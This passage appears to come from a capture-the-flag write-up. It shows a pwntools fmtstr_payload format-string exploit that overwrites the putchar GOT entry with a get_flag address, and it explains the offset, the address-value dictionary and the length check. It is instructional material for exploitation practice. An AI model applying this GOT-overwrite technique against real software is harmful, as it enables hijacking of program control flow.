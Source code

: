 ![alt text](images/image-9-3.png)

#### Third way: Use `fmtstr_payload`.

The `fmtstr_payload` function is a useful feature in the `pwntools` library, used to generate payloads for format string vulnerabilities. This function helps exploit vulnerabilities by writing to specific addresses in memory or reading values ​​from there.
```
payload = b'A' * 112
payload += fmtstr_payload(20,{putchar : get_flag})

assert(len(payload) < (0x158 - 0x78))   
```
```
20: Offset of the parameter in the stack (from top to bottom).
{putchar: get_flag}: Is a dictionary containing address: value pairs, in which:
  putchar: Address to overwrite (usually the address of a function in GOT).
  get_flag: The value will be written to the above address (usually the address of a function or shellcode).

assert(len(payload) < (0x158 - 0x78)): Make sure that the size of the entire payload does not exceed the limit of 224. If the condition is true, the program continues to run normally. If the condition is false (payload exceeds 224 bytes), the program stops and reports an AssertionError. Because if it overflows, it will overwrite the second parameter of printf and will not be format string.
```
